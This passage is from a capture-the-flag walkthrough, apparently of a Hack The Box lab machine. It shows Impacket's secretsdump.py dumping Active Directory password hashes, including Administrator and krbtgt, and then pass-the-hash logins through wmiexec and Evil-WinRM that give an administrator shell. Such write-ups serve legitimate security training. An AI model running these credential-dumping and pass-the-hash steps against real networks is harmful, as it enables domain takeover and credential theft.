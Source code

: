 

### Dump Hashes

Now, I can run `secretsdump.py`:



    root@kali# secretsdump.py svc-alfresco:s3rvice@10.10.10.161
    Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    ...[snip]...



### Shell

With the hashes for Administrator, I can connect with a tool like
`wmiexec`:



    root@kali# wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb.local/administrator@10.10.10.161
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

    [*] SMBv3.0 dialect used
    [!] Launching semi-interactive shell - Careful what you execute
    [!] Press help for extra shell commands
    C:\>whoami
    htb\administrator



I could also continue with Evil-WinRM:



    root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

    Info: Starting Evil-WinRM shell v1.7

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    htb\administrator



Either way, from there, I can grab `root.txt`:



    C:\users\administrator\desktop>type root.txt
    f048153f************************
